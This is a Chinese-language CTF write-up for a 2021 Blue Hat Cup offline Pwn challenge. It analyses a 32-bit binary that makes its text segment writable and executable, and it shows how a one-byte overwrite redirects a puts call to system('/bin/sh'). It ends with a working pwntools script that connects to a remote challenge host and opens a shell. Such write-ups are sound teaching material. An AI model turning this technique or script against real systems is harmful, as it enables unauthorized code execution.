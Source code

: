 ```yaml
---
title: 蓝帽杯2021线下Pwn题WP
author: Ch4rc0al
date: 2021-07-02T18:52:03+08:00
#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## cover

>     Arch:     i386-32-little
>     RELRO:    Partial RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x8048000)



线下唯一做出来的题

> mprotect(&dword_8048000, 0x8888u, 7);

开头将源程序的0x8048000+0x8888的部分的权限改为了**可读可写可执行**

main 函数内容

```c
buf_1 = 0;
buf_2 = 0;
printf("Try use a bullet to pwn this%s\n", (const char *)&buf_1);
read(0, &buf_1, 5u);
if ( (int)buf_1 > (int)"ou launch the bullet, and... What's your name?%c\n" )
{
  printf("%p is too big...\n", buf_1);
  exit(0);
}
*buf_1 = buf_2;
printf("OK,you launch the bullet, and... What's your name?%c\n", SHIBYTE(v5));
read(0, &buf_1, 0xAu);
puts((const char *)&buf_1);
```

其中`(int)"ou launch the bullet, and... What's your name?%c\n"`的地址为0x8048888，程序会在buf_1输入一个地址，并且将buf_2的内容写入到buf_1地址对应的内存中。

由于是32位程序，我们可以溢出buf_1使buf_2的内容被修改。

由于0x8048000-0x8048888之间的内容包括`text`段，所以我们可以修改程序的`text`段来达到修改程序执行流的效果，我们可以将调用`puts`的内容改为调用`system`来运行`system("/bin/sh")`

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
sh=remote('118.190.62.234',12435)
#sh=process('./pwn')
#08040000-08048888
p1=p32(0x08048792)
print p1
sh.sendafter('Try use a bullet to pwn this\n',p1+p8(0x4a))
sh.sendafter("OK,you launch the bullet, and... What's your name?",'/bin/sh')
sh.interactive()

```



